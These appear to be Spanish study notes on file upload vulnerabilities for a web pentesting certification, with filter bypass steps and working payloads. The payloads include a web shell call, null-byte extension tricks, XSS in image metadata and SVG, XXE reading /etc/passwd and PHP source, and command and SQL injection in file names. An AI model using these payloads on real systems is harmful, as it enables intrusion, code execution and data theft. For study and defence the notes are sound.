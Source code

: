 
http://caca.com/uploads/shell.php?cmd=id

## Blacklist filters

Cuando hay una validación de la extensión en el backend donde compara la extensión del archivo con una serie de extensiones de su blacklist

PASOS PARA BYPASSEARLO

1. Fuzzear extensiones y ver cuales están en la blacklist y cuales no
2. Probas a subir shells con las extensiones que te deja para ver si alguna ejecuta la shell

## Whitelist filters

Cuando hay una lista de extensiones que SI deja utilizar

1.Si comprueba que existe una extension de la whitelist en el archivo sin comprobar que es la última extension

 En estos casos usamos las extensiones dobles ,Ej:
 `ejemplo.jpg.php` -> en este caso bypasseamos el filtro porque la web 
 comprueba que el .jpg está 

2.Cuando comprueba la última extensión
 En este caso invertimos las extensiones para que bypasseemos la whitelist 
 pero eso puede no ser suficiente porque el que se ejecute el php o no       
 depende de como este configurado el servidor, esto lo sabremos mejor 
 si el servidor es un open source y podemos ver como trata las extensiones

### Character injection

Se puede jugar con php para que interprete de manera errónea las extensiones con carácteres:
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
El `%00` sirve para versiones de PHP 5.X y anteriores , es el null byte y nos sirve para bypassear el filtro de forma que luego se guarde sin la extensión de detrás del null byte. Ej: `shell.php%00.jpg -> shell.php`

En servidores windows pasa lo mismo pero con `:`  Ej: `shell.php:.jpg -> shell.php`  no es con php si no con cualquier extensión

## Type filters

En este caso no validan la extensión como en los casos anteriores sino que validan el contenido del archivo , los casos más comunes son `Content-Type Header` y `File Content`

Esto se nota cuando los bypasses anteriores no nos funcionan y tampoco subir una shell que se llame shell.png ,si la extension png está autorizada y todavía nos da error puede ser porque la web compruebe también el contenido del archivo asi que simplemente cambia el content-type a lo que te deje

## MIME-Type

En este caso se comprueban los llamados Magic Bytes, por ejemplo si un archivo empieza con `GIF87a` entonces es porque es un GIF y esos bytes son los que comprueba la app para ver si tu archivo es adecaudo

## Concatenar con otras vulnerabilidades 

A veces la web está bien protegida ante los ataques vistos anteriormente pero puede ser que a través de una upload podamos agregar a la web una vulnerabilidad nueva 

### XSS

-Subir archivos html que exploten stored XSS

-Cuando una web además de guardar la foto la enseña sus metadatos:
```shell-session
bonack@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
También puede ser que si de la foto le quitamos los Magic Bytes la web interprete la imagen como texto y por ende que eneseñe el XSS sin necesidad de que se vean explicitamente los metadatos

-Si te deja meterle .svg como imagen podríamos explotar XSS cada vez que  se muestre la foto : 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

-Para mostrar /etc/passwd (hay que usar extensión .svg)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
-Para leer el código fuente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### DoS

Si quieres info de DoS con file upload attacks te lo buscas guapo (para el cbbh no sirve de una mierda)

## Command injection

si subimos un archivo que en el nombre tiene un comando y el nombre del archivo entero es ejecutado en un OS puede dar un command injection

`file$(whoami).jpg` 
``file`whoami`.jpg`` 
`file.jpg||whoami`

lo mismo se aplica con XSS y SQLi : `file';select+sleep(5);--.jpg`

